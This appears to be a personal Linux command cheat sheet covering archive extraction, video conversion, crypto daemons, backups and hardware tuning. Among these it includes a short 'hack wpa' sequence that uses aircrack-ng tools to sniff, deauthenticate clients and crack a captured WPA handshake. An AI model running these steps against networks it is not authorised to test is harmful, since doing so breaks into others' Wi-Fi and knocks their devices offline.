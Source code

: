 unrar all archives in current folder  
$ `for f in *.rar;do unrar e -o+ $f;done`  

show folder size  
`$ du -h --max-depth=1`  

convert movie to xbox360 format  
`$ ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"`  

batch convert above  
```$ for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done ```

monero daemon  
`$ monerod --data-dir /mnt/cloud/monero`  

import gpg key for aur packages  
`$ gpg --receive-key keyid`  

ethereum blockchain sync  
`$ geth --syncmode "fast"`  

show external ip  
`$ curl ifconfig.me`  

weather forecast  
`$ curl wttr.in/Wilhelmshaven`  

set gtk cursor global value for browsers   
`$ gsettings set org.gnome.desktop.interface cursor-theme Adwaita`  

calculator  
` $ bc`  

backup through ssh  
`$ rsync -avz /source/folder/ user@remoteadress:/remote_folder`  

unrar all archives in folder (autoverwrite enabled)  
`$ find . -name "*.rar" -exec unrar x -o+ {} \;`  

show cpu frequency 
`$ cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\""`  

force cpu governor  
`$ sudo cpupower frequency-set -g powersave or performance`  

list available governors $ cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors  

show network usage $ iftop  

create playlist $ ls -1 *.mp4 > playlist.m3u  


cut characters playlist example $ cut -c 50- playlist.m3u > newplaylist.m3u  

batch rename delete example $ for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done  

output orphaned packages to file & run removal  $ sudo pacman -Qqdt > pkglist.txt & sudo pacman -R - < pkglist.txt  

hack wpa $ airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon  

hack wpa target network $ airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon  

force handshake $ aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon  

crack with wordlist $ aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap  

get nvme temperature $ sudo nvme smart-log /dev/nvme0 | grep temperature  

delete all but given extension $ find . -type f ! -name '*.txt' -delete  

amd vega current values $ watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info  

disable vsync environment variable $ vblank_mode=0  

current vega voltage values $ sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage  

force high dpm on graphics card $ echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level  
